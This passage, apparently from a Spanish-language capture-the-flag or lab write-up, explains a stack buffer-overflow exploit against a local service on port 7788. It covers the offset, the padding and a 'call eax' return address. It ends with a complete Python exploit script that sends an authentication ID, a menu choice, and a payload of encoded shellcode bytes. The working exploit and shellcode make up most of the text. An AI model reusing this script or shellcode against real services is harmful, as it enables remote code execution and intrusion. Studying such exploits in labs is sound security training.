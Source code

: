 Ahora ya tenemos todo lo necesario, simplemente hay que recordar un par de cosas.

**`AGENT_ID` y `STEP_TWO_INPUT`**: Son los valores que el exploit envía en las dos primeras interacciones con el servicio. El primer valor es "48093572" y el segundo es "3".

**`OFFSET`**: Define cuántos bytes necesitas rellenar en el desbordamiento de búfer para llegar a la dirección de retorno. Este valor se determina previamente (mediante ingeniería inversa o pruebas) y es crítico para que el exploit funcione correctamente.

**Padding**: Esta línea añade relleno al `payload` (en forma de `b"A"` repetido) hasta que el total de bytes enviados sea igual al valor de `OFFSET`. Esto asegura que el shellcode (almacenado en `buf`) se coloca justo antes de la dirección de retorno en la pila. El relleno ocupa el espacio de memoria que se desborda, lo que sobrescribe la dirección de retorno.

Y por último la **dirección de retorno**: Aquí se especifica una dirección de memoria (`0x08048563`) que corresponde a la función o instrucción que queremos ejecutar después de que se realice el desbordamiento. `struct.pack(f'<I', 0x08048563)` convierte esta dirección en un formato de bytes que se puede enviar a través del socket.

El exploit se queda en esto.
```python
#!/usr/bin/python3
import socket
import struct

HOST = "127.0.0.1"
PORT = 7788
AGENT_ID = b"48093572"
STEP_TWO_INPUT = b"3"
OFFSET = 168

buf =  b""
buf += b"\xdb\xd8\xbf\xa3\x68\xf1\xca\xd9\x74\x24\xf4\x5d"
buf += b"\x29\xc9\xb1\x12\x31\x7d\x17\x83\xc5\x04\x03\xde"
buf += b"\x7b\x13\x3f\x11\xa7\x24\x23\x02\x14\x98\xce\xa6"
buf += b"\x13\xff\xbf\xc0\xee\x80\x53\x55\x41\xbf\x9e\xe5"
buf += b"\xe8\xb9\xd9\x8d\x2a\x91\x08\xc9\xc3\xe0\x2c\xd0"
buf += b"\xa8\x6c\xcd\x62\xa8\x3e\x5f\xd1\x86\xbc\xd6\x34"
buf += b"\x25\x42\xba\xde\xd8\x6c\x48\x76\x4d\x5c\x81\xe4"
buf += b"\xe4\x2b\x3e\xba\xa5\xa2\x20\x8a\x41\x78\x22"

# Padding
payload = buf + b"A" * (OFFSET - len(buf))

# Call EAX
payload += struct.pack(f'<I',0x08048563) + b"\n"

try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        print("[+] Conectando al cliente")
        s.connect((HOST,PORT))
        print(f"[+] Autenticando con el AGENT_ID: {AGENT_ID}")
        s.sendall(AGENT_ID+b"\n")
        print(f"[+] Enviando: {STEP_TWO_INPUT}")
        s.sendall(STEP_TWO_INPUT+b"\n")
        print(f"[+] Enviando payload de tamaño {len(buf)} bytes...")
        s.sendall(payload + b"\n")
        response = s.recv(1024)
        print(f"[+] Respuesta del servidor:\n{response.decode()}")
except Exception as e:
    print(f"[-] Error: {e}")
```
